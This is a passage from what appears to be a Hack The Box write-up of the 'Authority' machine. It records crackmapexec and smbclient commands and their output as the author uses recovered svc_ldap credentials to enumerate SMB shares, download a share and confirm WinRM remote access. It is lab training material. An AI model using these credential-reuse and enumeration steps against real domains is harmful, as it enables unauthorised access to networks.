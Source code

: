 </🔄 Alternative Step>

We now have the following set of AD credentials: `svc_ldap`:`lDaP_1n_th3_cle4r!`.

`crackmapexec smb 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'`:
```
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! ←
```

`crackmapexec smb 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' --shares`:
```
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$                              Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares READ ←           
SMB         10.10.11.222    445    AUTHORITY        Development     READ            
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON        READ            Logon server share 
SMB         10.10.11.222    445    AUTHORITY        SYSVOL          READ            Logon server share 
```

`mkdir ./department_smbshare`

`smbclient -U 'svc_ldap%lDaP_1n_th3_cle4r!' '//10.10.11.222/Department Shares' -c 'prompt OFF;recurse ON;lcd /home/kali/department_smbshare;mget *'`:
```
```
❌

`tree -L 4 ./department_smbshare`:
```
./department_smbshare
├── Accounting
├── Finance
├── HR
├── IT
├── Marketing
├── Operations
├── R&D
└── Sales

9 directories, 0 files ←
```

`crackmapexec winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'`:
```
SMB         10.10.11.222    5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
HTTP        10.10.11.222    5985   AUTHORITY        [*] http://10.10.11.222:5985/wsman
HTTP        10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
```
